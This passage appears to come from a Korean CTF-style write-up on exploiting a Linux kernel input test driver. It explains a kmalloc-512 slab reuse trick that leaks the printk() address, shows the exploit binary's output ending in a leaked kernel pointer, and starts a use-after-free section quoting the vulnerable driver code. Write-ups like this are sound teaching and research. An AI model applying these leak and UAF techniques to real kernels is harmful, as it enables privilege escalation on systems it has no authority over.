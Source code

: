 이렇게 `ioctl()` 호출을 통해 `_fp`를 할당하고 `close()`하면 슬랩 객체의 크기가 `416`바이트이므로 `kmalloc-512` 캐시로 이동한다.
`printk()`의 주소를 덮어쓰지 않기 위해 `392`바이트의 슬랩 객체를 할당하려고 하면 `kmalloc-512` 캐시에 있는 객체가 반환된다.

이를 이용해 `392`바이트를 `0x42`로 채워넣으면 `strlen()`에서 `NULL`을 만날 때까지 길이를 측정하므로 `printk()`의 주소를 leak할 수 있다.

``` bash
/ $ ./exp
type: 1, code: 330, value: 0x1 
type: 3, code: 0, value: 0x41 
type: 3, code: 1, value: 0x41 
type: 0, code: 0, value: 0x0 
type: 3, code: 0, value: 0x0 
type: 3, code: 1, value: 0x0 
type: 0, code: 0, value: 0x0 
type: 3, code: 0, value: 0x42 
type: 3, code: 1, value: 0x42 
type: 0, code: 0, value: 0x0 
type: 3, code: 0, value: 0x20 
type: 3, code: 1, value: 0x20 
type: 0, code: 0, value: 0x0 
type: 3, code: 0, value: 0xb8 
type: 3, code: 1, value: 0xb8 
type: 0, code: 0, value: 0x0 
type: 3, code: 0, value: 0xae 
type: 3, code: 1, value: 0xae 
type: 0, code: 0, value: 0x0 
type: 3, code: 0, value: 0xb3 
type: 3, code: 1, value: 0xb3 
leak : 0xffffffffb3aeb820
```

### Use After Free
UAF 취약점을 트리거하고 난 후의 상황을 생각해보면 `ptr`은 dangling pointer가 되어 free된 슬랩 객체를 가리키고 있다.
이 슬랩 객체가 `kmalloc-512` 캐시에 있다면 `ioctl()`을 통해 `_fp` 할당 시 그 객체를 반환받게 된다.

``` c
static ssize_t input_test_driver_write(struct file *filp, const char __user *buf, size_t count, loff_t *f_pos) {
    ...
    if(count<256) {
        len = count;
        count = 256;
    } else if(count>0x40000) {
        len = 416;
    } else {
        len = count;
    }

    if(result = (char *)kmalloc(count, GFP_ATOMIC))
        ptr = result;

    if (copy_from_user(ptr, buf, len) != 0) {
        mutex_unlock(&test_mutex);
        return -EFAULT;
    }
    ...
}
```
